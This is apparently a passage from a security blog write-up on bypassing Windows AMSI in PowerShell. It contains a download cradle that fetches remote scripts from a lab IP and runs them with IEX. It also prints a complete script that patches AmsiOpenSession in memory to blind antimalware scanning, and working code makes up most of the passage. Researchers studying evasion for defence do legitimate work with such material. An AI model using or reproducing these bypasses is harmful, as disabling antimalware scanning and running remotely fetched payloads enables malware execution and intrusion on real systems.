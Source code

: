 Suppose we want to run a second, malicious script, that on its own gets caught by AMSI. We will run it after our bypass, on the same prompt. For our purposes, malicious.txt will just contain the very malicious blacklisted string 'amsiutils' (with the single quotes). We add a download cradle for malicious.txt.

```
$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591)); IEX($full.substring(591,60)); IEX($full.substring(651,126)); (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/malicious.txt")|IEX
```

It works.

[im 14]


#### AmsiOpenSession patch

Now, let's create a new AMSI bypass script. Instead of patching AmsiScanBuffer, we want to scan AmsiOpenSession. Since we're a script kiddie, we'll just take the [AmsiScanBuffer script](https://github.com/webbie321/AmsiScanBufferBypass/blob/master/ASBBypass.ps1) by Rasta Mouse and replace the function name.


On line 22, we simply replace "Amsi" + "Scan" + "Buffer" by "AmsiOpenSession"

No need to split the string anymore (for now) since this is a less popular function to patch.

Full new script:

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiOpenSession")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

We still have to cut the script in 3, but, surprise, it works!
